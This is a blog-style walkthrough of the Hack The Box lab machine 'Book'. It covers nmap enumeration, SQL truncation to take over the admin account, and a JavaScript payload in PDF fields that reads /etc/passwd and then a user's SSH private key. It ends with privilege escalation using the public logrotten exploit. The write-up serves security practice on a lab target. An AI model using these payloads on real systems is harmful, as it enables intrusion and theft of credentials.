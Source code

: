 ```yaml
---
layout: post
title:  Hack The Box - Book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)  
<p align="center"> Book is a medium machine created by <a href="https://www.hackthebox.eu/home/users/profile/13531"></a>MrR3boot</p>  
  
  
  
# Enumeration
### <center>Nmap</center>  
  
<center>As always, begin with nmap</center>  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
<center>Opening the port 80 I got this</center>  
# ![book1](/assets/img/book/book1.png)
  
<center>After register I found the admin  email: admin@book.htb</center>  
# ![book2](/assets/img/book/book3.png)
  
<center>At first I didn't know what to do with this</center>  
<center>Until I back to home page, look the source and find this</center>  
# ![book3](/assets/img/book/book2.png)  
  
### <center>SQL Truncation</center>
  
<p>Using <a href="https://resources.infosecinstitute.com/sql-truncation-attack/">SQL truncation</a> with Burp Suite I tested "name" and "email" fields with more characters</p>  
  
# ![book4](/assets/img/book/book4.png)  
  
<center>Logged in with the credentials admin@book.htb qwerty</center>  
  
# ![book5](/assets/img/book/book5.png)  
  
<p>Using <a href="https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html">this</a> as reference I found a way in</p>  
### Exploit  
  
<center>Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script</center>  

<center>\*Missing tags\*</center>  
*****

<center>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</center>  

*****  
  
  
<center>Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd</center>  

# ![book6](/assets/img/book/book6.png)  
  
<center>If I was runnin to get user blood next step would be "file:///home/reader/user.txt"</center>  
  
<center>Before get the id\_rsa from reader I tried root, perhaps...</center>  
  
<center>Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader</center>  
  
<center>Copy that to another file called id\_rsa and "chmod 600 id\_rsa"</center>  
  
# ![book7](/assets/img/book/book7.png)  
  
<center>Now just "ssh -i id\_rsa reader@10.10.10.176" and smile</center>  
  
# ![book8](/assets/img/book/book8.png)</center>
  
  
# Privilege Escalation  
  
  
<center>After enumerate almost everything and don't find nothing</center>  
<p>I used <a href="https://github.com/DominicBreuker/pspy.git">pspy</a> and find root process</p>  
<center>scp -i id\_rsa pspy64s reader@10.10.10.176</center>  
  
  
<center>pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg</center>  
  
# ![book9](/assets/img/book/book9.png)  
  
<p>Search logrotate exploit in google and found <a href="https://github.com/whotwagner/logrotten">this</a> on github</p>  
<center>Cloned the repository and uploaded it with scp command</center>  
<center>Unziped the archive and compiled the logrotten.c with gcc</center>  
  
<center>gcc -o logrotten logrotten.c</center>  
  
<center>Created the payload  and executed logrotten</center>  
  
# ![book10](/assets/img/book/book10.png)  
  
<center>Now just cat /tmp/id\_rsa to another file and ssh to root</center>  
  
  
# ![book11](/assets/img/book/book11.png)  
# ![book12](/assets/img/book/book12.png)  
  
